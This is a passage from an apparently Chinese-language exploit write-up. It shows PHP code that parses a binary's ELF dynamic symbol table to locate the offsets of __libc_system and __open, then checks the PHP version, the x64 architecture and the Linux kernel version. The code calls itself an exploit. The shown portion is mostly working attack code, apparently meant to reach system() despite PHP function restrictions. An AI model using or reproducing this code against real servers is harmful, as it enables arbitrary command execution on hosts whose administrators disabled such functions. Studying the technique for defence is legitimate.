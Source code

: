 ```
            while($bin[++$j] != "") `{`
                $name .= $bin[$j];
            `}`
            if($name == 'open') `{`
                return $r_offset;
            `}`
        `}`
    `}`
    else `{`
        for($i = $dynsym_off; $i &lt; $dynsym_off + $dynsym_size; $i += $dynsym_entsize) `{`
            $name_off = unp(substr($bin, $i, 4));
            $name = '';
            $j = $strtab_off + $name_off - 1;
            while($bin[++$j] != "") `{`
                $name .= $bin[$j];
            `}`
            if($name == '__libc_system') `{`
                $system_offset = unp(substr($bin, $i + 8, 8));
            `}`
            if($name == '__open') `{`
                $open_offset = unp(substr($bin, $i + 8, 8));
            `}`
        `}`
        return array($system_offset, $open_offset);
    `}`
```

此外我们还需要定义已安装的PHP版本信息：

```
if (!defined('PHP_VERSION_ID')) `{`
    $version = explode('.', PHP_VERSION);
    define('PHP_VERSION_ID', ($version[0] * 10000 + $version[1] * 100 + $version[2]));
`}`
if (PHP_VERSION_ID &lt; 50207) `{`
    define('PHP_MAJOR_VERSION',   $version[0]);
    define('PHP_MINOR_VERSION',   $version[1]);
    define('PHP_RELEASE_VERSION', $version[2]);
`}`
echo "[INFO] PHP major version " . PHP_MAJOR_VERSION . "n";
```

检查操作系统类型及Linux内核版本：

```
if(strpos(php_uname('a'), 'x86_64') === false) `{`
    echo "[-] This exploit is for x64 Linux. Exitingn";
    exit;
`}`

if(substr(php_uname('r'), 0, 4) &lt; 2.98) `{`
    echo "[-] Too old kernel (&lt; 2.98). Might not workn";
`}`
```
